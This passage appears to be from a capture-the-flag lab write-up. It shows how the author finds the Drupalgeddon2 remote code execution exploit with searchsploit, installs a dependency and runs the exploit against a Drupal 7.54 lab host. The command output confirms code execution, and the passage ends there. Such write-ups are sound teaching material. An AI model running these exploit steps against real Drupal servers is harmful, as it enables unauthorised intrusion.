 ```
- Numerous bug fixes.
- Numerous API documentation improvements.
- Additional performance improvements.
- Additional automated test coverage.

... CONTENT SNIPPED ...
```

At this point, I went ahead and searched for known vulnerabilities that affcted Drupal <= 7.54:

```
$ searchsploit drupal 7
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                            |  Path
 ---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 ...CONTENT SNIPPED...
 Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution                                                                       | php/webapps/44449.rb
 ...CONTENT SNIPPED...
 ---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------

```

### Exploiting Drupal

I mirrored the remote code execution exploit above to my current working directory:

```bash
searchsploit -m php/webapps/44449.rb
```

I also needed to install a missing ruby dependency to run the script:

```
$ sudo gem install highline
Fetching highline-2.0.3.gem
Successfully installed highline-2.0.3
Parsing documentation for highline-2.0.3
Installing ri documentation for highline-2.0.3
Done installing documentation for highline after 2 seconds
1 gem installed
```

At this point, I ran the exploit:

```
$ ruby 44449.rb http://10.10.10.9
ruby: warning: shebang line ending with \r may cause problems
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://10.10.10.9/
--------------------------------------------------------------------------------
[+] Found  : http://10.10.10.9/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.54
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Clean URLs
[+] Result : Clean URLs enabled
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo KYYRHMWO
[+] Result : KYYRHMWO
```
